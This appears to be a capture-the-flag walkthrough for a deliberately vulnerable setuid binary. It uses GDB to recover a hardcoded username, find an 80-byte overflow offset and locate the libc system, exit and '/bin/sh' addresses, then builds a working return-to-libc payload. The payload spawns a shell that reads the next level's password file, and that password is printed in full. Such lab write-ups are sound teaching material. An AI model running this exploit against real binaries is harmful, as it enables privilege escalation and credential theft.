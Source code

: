 # Level01 Walkthrough

## Analyzing the Program with GDB

1. **Whats happening**:  

```bash
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...
```

- We find "dat_will" with `disas verify_user_name` 
```bash
[...]
0x0804847d <+25>:    mov    $0x80486a8,%eax
[...]
(gdb) x/s 0x80486a8
0x80486a8:       "dat_wil"
```

- We can see that an overflow can happened in the password, and in the fgets functions: 

```bash
(gdb) r
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip <---- cuz its char*
eip            0x37634136       0x37634136 <------> offset 80
```

- Lets use a "return to libc" attack which will overwrite the EIP return address with a particular libc function address directly. 

We're going to overwrite the EIP with the address of system, "/bin/sh" and exit()

```bash
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Breakpoint 1, 0x080484d0 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +999999, "/bin/sh"
Pattern not found.
(gdb) find &system, +99999999, "/bin/sh" <----- is use to look for an address in memory where the string. '+9999999999' long search
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

Exit() because it will segfault upon exit

2. **Payload**:  
    Payload is : 
    - USERNAME : print "dat_wil\n"
    - PADDING : "A"*80 +
    - SYSTEM : 0xf7e6aed0 but have to translate in little endian 
    - EXIT : 0xf7e5eb70 but have to translate in little endian 
    - /BIN/SH : 0xf7f897ec but have to translate in little endian 

---

## Running the Program

```bash
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
^C
```

## Moving to level02

1. **Swith User to level02**:
    Run ```su level02```

2. **Authenticate with the Password**:
    
    <!-- # - RET_ADDRESS : 
    # ```bash
    # (gdb) b verify_user_name 
    # Breakpoint 1 at 0x8048469
    # (gdb) b verify_user_pass
    # Breakpoint 2 at 0x80484a8
    # (gdb) run
    # The program being debugged has been started already.
    # Start it from the beginning? (y or n) y
    # Starting program: /home/users/level01/level01 
    # ********* ADMIN LOGIN PROMPT *********
    # Enter Username: dat_will

    # Breakpoint 1, 0x08048469 in verify_user_name ()
    # (gdb) x/32xw $esp
    # x/32xw $esp-16
    # 0xffffd680:     0xffffd708      0xf7ff0a50      0x00000000      0xffffd6bc
    # 0xffffd690:     0x00000000      0xffffd6fc      0xffffd708      0x08048532
    # 0xffffd6a0:     0x0804a040      0x00000100      0xf7fcfac0      0x00000001
    # 0xffffd6b0:     0xffffd8cd      0x0000002f      0xffffd70c      0x00000000
    # `0xffffd6c0`:     0x00000000      0x00000000      0x00000000      0x00000000 -->
 